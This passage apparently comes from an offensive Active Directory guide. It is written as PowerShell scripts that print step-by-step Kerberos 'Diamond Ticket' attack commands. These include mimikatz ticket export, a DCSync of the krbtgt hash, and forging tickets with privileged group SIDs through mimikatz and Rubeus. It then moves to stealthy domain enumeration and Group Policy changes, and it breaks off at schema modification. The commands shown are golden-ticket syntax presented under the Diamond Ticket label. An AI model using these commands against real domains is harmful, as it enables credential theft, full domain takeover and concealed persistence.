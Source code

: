 ### **2. Diamond Ticket Creation and Usage**

#### **Diamond Ticket Creation Process**
```powershell
# Diamond Ticket creation process
Write-Host "=== DIAMOND TICKET CREATION PROCESS ===" -ForegroundColor Green

Write-Host "Creation Steps:" -ForegroundColor Yellow

Write-Host "`n1. Obtain Legitimate TGT:" -ForegroundColor Cyan
Write-Host "   # Extract TGT from current session" -ForegroundColor Gray
Write-Host "   mimikatz # kerberos::list /export" -ForegroundColor White
Write-Host "   # Or capture TGT from user" -ForegroundColor Gray
Write-Host "   mimikatz # sekurlsa::tickets /export" -ForegroundColor White

Write-Host "`n2. Extract KRBTGT Hash:" -ForegroundColor Cyan
Write-Host "   mimikatz # lsadump::dcsync /user:krbtgt /domain:cybercorp.local" -ForegroundColor White

Write-Host "`n3. Create Diamond Ticket:" -ForegroundColor Cyan
Write-Host "   mimikatz # kerberos::golden /user:LegitimateUser /domain:cybercorp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:KRBTGT_HASH /groups:512,513,518,519,520 /ptt" -ForegroundColor White

Write-Host "`n4. Alternative Method (Rubeus):" -ForegroundColor Cyan
Write-Host "   Rubeus.exe golden /rc4:KRBTGT_HASH /domain:cybercorp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /user:LegitimateUser /groups:512,513,518,519,520 /ptt" -ForegroundColor White

Write-Host "`nParameter Explanation:" -ForegroundColor Yellow
Write-Host "  /user: Legitimate username (not Administrator)" -ForegroundColor Gray
Write-Host "  /domain: Target domain name" -ForegroundColor Gray
Write-Host "  /sid: Domain SID" -ForegroundColor Gray
Write-Host "  /krbtgt: KRBTGT account NTLM hash" -ForegroundColor Gray
Write-Host "  /groups: Additional group SIDs to add" -ForegroundColor Gray
Write-Host "  /ptt: Pass the ticket to current session" -ForegroundColor Gray
```

### **3. Diamond Ticket Exploitation**

#### **Stealthy Privilege Escalation**
```powershell
# Diamond Ticket exploitation for stealthy escalation
Write-Host "=== DIAMOND TICKET EXPLOITATION ===" -ForegroundColor Green

Write-Host "Exploitation Commands:" -ForegroundColor Yellow

Write-Host "`n1. Verify Diamond Ticket:" -ForegroundColor Cyan
Write-Host "   klist" -ForegroundColor White
Write-Host "   mimikatz # kerberos::list" -ForegroundColor White
Write-Host "   # Check for additional group memberships" -ForegroundColor Gray

Write-Host "`n2. Stealthy Domain Access:" -ForegroundColor Cyan
Write-Host "   # Access as legitimate user with elevated privileges" -ForegroundColor Gray
Write-Host "   Get-ADUser -Filter * -Properties memberof" -ForegroundColor White
Write-Host "   Get-ADComputer -Filter * -Properties *" -ForegroundColor White

Write-Host "`n3. Group Policy Modification:" -ForegroundColor Cyan
Write-Host "   # Modify GPOs stealthily" -ForegroundColor Gray
Write-Host "   Get-GPO -All" -ForegroundColor White
Write-Host "   # Add startup scripts" -ForegroundColor Gray
Write-Host "   # Modify security settings" -ForegroundColor Gray

Write-Host "`n4. Schema Modification:" -ForegroundColor Cyan
```